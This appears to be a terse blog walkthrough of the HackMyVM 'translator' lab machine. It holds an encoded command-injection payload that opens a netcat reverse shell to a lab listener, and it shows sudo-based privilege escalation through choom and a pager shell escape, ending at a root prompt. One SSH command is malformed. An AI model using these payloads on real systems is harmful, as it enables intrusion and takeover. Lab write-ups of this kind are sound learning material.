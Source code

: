 ```yaml
---
title: "translator - sml"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - translator
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# translator - sml
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|translator|
|Author:|[sml](https://hackmyvm.eu/profile/?user=sml)|
|Release date:|2022-05-12|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=translator)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|tricks |

# 00. Beginning
My another shortest entry.
{: .text-justify}
# 01.
## Sending
```bash
curl 'http://172.16.1.121/translate.php?hmv=;mx%20-x%20yzhs%20172.16.1.89%2012345'
```
## Receiving
```bash
nc -lvp 12345
```
# 02. 
```bash
cat /var/www/html/hvxivg
```
## My password is:
```bash
curl 'http://172.16.1.121/translate.php?hmv=Mb+kzhhdliw+rh+zbfie3w4'
```
# 03.
```bash
ssh ocean@http://172.16.1.121
```
# 04.
```bash
sudo -uindia /usr/bin/choom -n 0 -- bash
```
# 05.
```bash
sudo /usr/local/bin/trans -pager less
# translator
```
# 06. Final
```bash
translator
/ˈtranzˌlādər/

(♂) traductor
(♀) traductora

Definiciones de translator
[ English -> Español ]

sustantivo
    (el) traductor
        translator, interpreter, dragoman

translator
    traductor, intérprete
!bash
```
```bash
sudo /usr/local/bin/trans -pager less
```
```bash
# translator
# Did you mean: translate
# root@translator:/home/ocean# 
```